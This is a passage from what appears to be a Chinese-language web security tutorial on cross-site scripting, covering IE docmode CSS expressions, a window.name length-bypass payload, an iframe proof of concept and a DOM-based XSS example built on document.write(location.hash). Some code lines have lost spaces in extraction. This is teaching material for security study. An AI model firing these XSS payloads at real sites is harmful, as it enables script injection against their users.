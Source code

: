 
下面的python代码会打印出从0x00到0xff的所有字符：

[code]

    count = 0
    fori in xrange(0x00,0xff):
    count += 0x1
    printchr(i),
    print count
[/code]



**5.2.1 缺失X-frame-Options**

经常存在一个误解，认为x-frame options是用来防范点击劫持漏洞的，不过防止网站被攻陷可以使你免于无穷无尽的漏洞  

**5.2.2 Docmodes**

IE在很久前引入了doc-mode,用于提供向后的兼容性，然而这也暴露了一些风险。设想如果攻击者能攻下你的网站，他也可以引入doc-
mode并执行CSS表达式：  
expression(open(alert(1)))

下面的poc会插入IE7仿真器并将一个网站地址置于iframe中

[code]

    <html>
    <body>
    <meta http-equiv="X-UA-Compatible" content="IE=EmulateIE7" />
    <iframe src="https://targetwebsite.com">
    </body>
    </html>
[/code]



**5.2.3 Window.name**

名称对象告诉我们窗口的名字，在这样一个场景我们可以加载页面，在iframe中我们也能控制窗口的名字，我们可以执行javaScript脚本并绕过长度的限制，在设想一下我们可以攻陷一个网站却不能注入"javascript:alert(1)"  
 **POC：**

[code]

    <iframe src='http://www.target.com?foo="xss autofocus/AAAAA onfocus=location=window.name//' name="javascript:alert("XSS")"></iframe>
[/code]

参数位置相当于"window.name"，因为我们已经控制了名称属性，我们可以将名字设置为“javascript:alert(xss)”，再然后，我们就可以执行javascript脚本了



**6.1 基于DOM的XSS**  
服务端的过滤器无法应对基于DOM的XSS，原因在于基于DOM的XSS其XSS攻击向量总是在客户端执行，看一下最简单的例子：

[code]

    <script>
    vari=location.hash;
    document.write(i);
    </script>
[/code]

